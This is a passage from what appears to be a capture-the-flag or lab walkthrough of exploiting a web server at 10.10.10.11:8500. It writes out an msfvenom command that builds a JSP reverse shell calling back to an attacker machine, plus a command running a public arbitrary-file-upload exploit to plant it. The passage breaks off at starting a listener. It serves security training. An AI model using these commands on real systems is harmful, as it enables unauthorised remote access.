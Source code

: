It is worth noting that in the Administrator GUI, there is a Debugging & Logging &gt; Scheduled Tasks category that would allow us to upload files.

![](../images/max/971/1*HqvdBk09BVtq1448nzEWFA.png)

Instead, I’m going to use arrexal’s exploit.

First, generate a JSP reverse shell that will be run and served by the server.

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.6 LPORT=4444 > shell.jsp
```

Next, run arrexal’s exploit.

```text
python arb-file-exploit.py 10.10.10.11 8500 shell.jsp
```

The exploit tells us where the exploit file was saved.

![](../images/max/818/1*wcq5Sd42-paHcYnVDMBb9A.png)

Next, start up a listener on the attack machine.
